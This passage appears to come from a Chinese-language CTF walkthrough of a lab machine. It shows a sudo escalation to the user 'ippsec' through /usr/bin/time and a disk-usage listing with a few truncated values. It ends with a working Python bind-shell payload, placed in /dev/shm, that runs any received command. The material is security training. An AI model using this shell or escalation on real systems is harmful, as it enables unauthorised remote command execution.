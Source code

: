 ![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161622206.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161623938.png)

可以利用`/usr/bin/time`切换到`ippsec`用户,`sudo -u ippsec /usr/bin/time /bin/bash`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161632715.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161658975.png)

`cat`和`vi`对换了,同时会不定时断开ssh并重置密码

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161625266.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161626016.png)

```
ippsec@red:~$ df -h
Filesystem                         Size  Used Avail Use% Mounted on
udev                               447M     0  447M   0% /dev
tmpfs                               99M  1.   98M   2% /run
/dev/mapper/ubuntu--vg-ubuntu--lv   19G   18G     0 100% /
tmpfs                              49     0  49   0% /dev/shm
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              49     0  49   0% /sys/fs/cgroup
/dev/loop1                          33M   33M     0 100% /snap/snapd/12704
/dev/loop2                          56M   56M     0 100% /snap/core18/2128
/dev/sda2                          976M  107M  803M  12% /boot
/dev/loop3                          68M   68M     0 100% /snap/lxd/21545
/dev/loop4                          33M   33M     0 100% /snap/snapd/13640
/dev/loop0                          62M   62M     0 100% /snap/core20/1169
/dev/loop5                          7   7     0 100% /snap/lxd/21029
/dev/loop6                          56M   56M     0 100% /snap/core18/2246
tmpfs                               99M     0   99M   0% /run/user/1000
```

因此基于用户`ippsec`反弹shell(由于环境限制,我这里只能使用正向绑定)

在`/dev/shm`下有空闲空间并可以进行写入操作,在该目录下放置反弹/绑定的payload

```python
import socket
import subprocess
s1=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s1.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR, 1)
s1.bind(("0.0.0.0",9001))
s1.listen(1)
c,a=s1.accept()
while True:
    d=c.recv(1024).decode()
    p=subprocess.Popen(d,shell=True,stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)
    c.sendall(p.stdout.read()+p.stderr.read())
```
